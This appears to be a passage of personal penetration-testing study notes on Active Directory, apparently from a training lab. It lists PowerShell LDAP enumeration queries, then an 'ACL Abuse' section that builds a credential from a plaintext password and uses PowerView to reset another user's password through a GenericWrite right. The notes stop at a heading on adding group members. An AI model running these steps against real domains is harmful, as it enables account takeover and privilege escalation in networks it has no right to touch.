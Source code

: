Think of naming context as **entry point or "root containers"** in the LDAP directory tree where different categories of data are stored. Each one represents different **subtree** of the directory
### LDAP - Users
```powershell
Get-ADObject -LDAPFilter '(&(objectCategory=person)(objectClass=user))' | select name
```
### LDAP - Groups
```powershell
Get-ADObject -LDAPFilter '(objectClass=group)' | select name
```
### LDAP - All domain controllers
```powershell
Get-ADObject -LDAPFilter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=8192))' | select name
```
### LDAP - Count
```powershell
Get-ADObject -LDAPFilter '(objectClass=group)' -Properties * | Measure-Object | Select-Object -ExpandProperty Count
```


# ACL Abuse

## Create cred object

```bash
$wleyPWD = ConvertTo-SecureString 'transporter@4' -AsPlaintext -Force

$wleyCred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $wleyPWD)
```

## Chage the password

Use `Set-DomainUserPassword` to abuse the **GenericWrite ACL**

```bash
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPWD -Credential $wleyCred -Verbose
```

## Check Memeber of this group

With `Get-ADGroup` we can check the memebers of the group

```bash
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

## Add member in a group PowerView  
